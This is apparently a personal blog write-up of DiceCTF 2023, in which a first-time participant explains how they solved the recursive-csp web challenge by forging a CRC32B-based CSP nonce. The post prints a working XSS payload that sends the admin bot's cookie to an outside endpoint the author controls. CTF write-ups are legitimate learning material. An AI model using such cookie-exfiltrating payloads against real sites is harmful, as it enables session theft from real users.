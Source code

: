 ```yaml
---
title: "DiceCTF 2023 Writeup"
date: 2023-02-11T09:47:42-08:00
description: My DiceCTF challenge experiences. What I learned and what cool things I found out.
image: images/2023-02-11/solved-screenshot.png
tags:
  - ctf
---
```


Hello! 

DiceGang 🎲 just finished hosting DiceCTF 2023 (https://ctf.dicega.ng). It was first my first ever CTF event. I didn't really have any expectations going in and signed up on a whim. But guess what? I managed to solve one of the challenges and even gave a couple others a shot. I learned a ton from this event, and I'm definitely going to attend more CTF events in the future.

Here are my write ups.

### web/recursive-csp
* solved
* solves: 178
* description: the nonce isn't random, so how hard could this be? (the flag is in the admin bot's cookie)

I was greeted with a simple Hello World and an input for name. The form is simple, it submits a `GET` request with `name` as query parameter. The new page's title changed from "Hello world! to "Hello andy!".

{{< figure
    src="/images/2023-02-11/hello-world.png"
    alt="A screenshot of the recursive-csp challenge."
>}}

This was screaming XSS to me, so I just randomly inputting possible XSS attacks. But none of the `<script>` code was executing. Looking at the console error, it was blocked by the CSP header.
```
Content Security Policy: The page’s settings blocked the loading of a resource at inline (“script-src”).
```

The CSP header (`content-security-policy: default-src 'none'; script-src 'nonce-fe26ee76' 'unsafe-inline'; base-uri 'none';`) is only allowing script with particular nonce! This matches up with the hint. I started looking at how the nonce is generated by the server. At the first, I thought it was using the whole document or the date time as the input for hashing, and then only to realized that only the `name` parameter was used for input. It made so much sense to just use the input, this took way longer than I want to admit. 

Now I know what the server was using for the input, I needed to know what kind of algorithm it is using. The nonce was always 8 characters so I started looking at any algorithm that will output 8 characters. I spent a long time on searching this. I didn't know many hashing or encoding function except the basics: md5, sha256, etc. Until I finally found a site: https://md5calc.com. I used it to test md5 and other algorithms I know. What's cool about this site is that it outputs string encoded with other popular algorithms. This is how I found "CRC32B" hashing function.

> Future self here: it seems like CRC32B is a common hashing function provided by PHP. If only I could google what kind of hashing function php provides.

Now I know how the server generate the nonce, I just need to somehow force it to match with my XSS. I wrote a simple js script to output `<script nonce="{input}">alert(1)</script>` where I replaced the "{input}" with a 8 characters random string and hoped the CRC32B hashing will return the same thing. My script didn't work and I was stuck. It was not able even brute force one match for me. I ran the script for half an hour but no luck. 

I began searching online for a way to brute force it, and luckily stumbled upon this blog post by [Nayuki] https://www.nayuki.io/page/forcing-a-files-crc-to-any-value. The blog explains in details how the math works. To summarize it, the script adds 4 extra bytes to match the provided hash. This was really cool. I experimented with the script and found out some bytes that are injected are not URI friendly so I have to re-hash it again with a different value. 

At the end, I wrote a script to generate the hash. The flag was in admin bot's cookie so I had to update the script to send the cookie to an endpoint I control. Since CSP prevents any network requests for sending the cookie, I used `document.location` to change the URL in admin bot and hoped that it would redirect before it close the headless browser. To my surprise it worked. 

Here is my final payload. I injected the random 4 bytes at the end (`u091`). You can check the hash, it should match to `55ed1ba5`.
```html
<script nonce="55ed1ba5">document.location="https://adice.free.beeceptor.com?c="+document.cookie</script>  uO91
```

> Future self here: `https://beeceptor.com` was a site I used to get a temporary endpoint. However, reading everyone else's write up it seemed like `https://webhook.site` is what people usually use. 

This is the flag I got at the end, `dice{h0pe_that_d1dnt_take_too_l0ng}`. Honestly, I faced a lot of difficulties during the whole challenge: figuring out the hash algorithm, troubleshooting why the random bytes weren't working in the URL, and understanding how the admin bot operates. It took me roughly 15 hours to solve this challenge, but even if I hadn't solve it, it would still have been worth the effort. The amount of joy when I saw the flag was indescribable.

{{< figure
    src="/images/2023-02-11/solved-screenshot.png"
    alt="A solved screenshot for recursive-csp challenge in dashboard view."
>}}

Here is the author [strellic]'s [write up](https://brycec.me/posts/dicectf_2023_challenges). He wrote a simple rust program to force the output which is much faster than my javascript version! Additionally, he created three more awesome challenges that are worth checking out!


## Unsolved challenge 

I attempted other challenges but couldn't solve them. Here are notes to myself for studying and documenting what I attempted.

### web/scorescope
* solves: 55
* description: I'm really struggling in this class. Care to give me a hand?

This challenge had a file named `template.py`, we needed to implement all the functions and upload to the site for grading. (It felt like university homework.) The test cases included a `hidden` case so users couldn't guess it. I couldn't solve this. I don't use `python` regularly. But here is a good [write up by r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/).

I learned a lot about exposing what the main module has and how to manipulate it.

### web/codebox
* solves: 30
* description: strellic makes csp challs, maybe i should try one sometime

This is another really cool challenge with CSP. It uses `report-uri` to leak information to an external server. It also uses a cool trick with how `URL().searchParams.get()` and `express`'s `req.query` parse multiple parameters with the same key. `URL` uses the first and `express` uses the last. This blew my mind 🤯. I didn't know even think this was possible, I assume everything follow a standard.

[r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/)'s write up has a detail explanation on how the challenge worked and how they solved it.


## Conclusion

This was my first ever CTF event, I am really proud that I even solved 1 challenge. I learned a lot by participating the event. Also, thank you to the DiceGang staff in teh discord chat. I didn't really know how to use the admin bot so I was asking weird questions about it.

Here are things that I learned:
* Amazing people/groups to follow: [strellic], [ankursundara], [r3kapig], [Nayuki], and [dicegang]
* Content Security Policy header and how to use it.
* CRC32 hashing algorithm.
* [pwntool](https://github.com/Gallopsled/pwntools) to interact with server. Useful for scripting and parsing the output.


There are plenty more things that I won't list here. That's about it, thank you for reading. 

[strellic]: https://twitter.com/Strellic_
[ankursundara]: https://twitter.com/ankursundara
[r3kapig]: https://twitter.com/r3kapig
[Nayuki]: https://www.nayuki.io
[dicegang]: https://twitter.com/dicegangctf
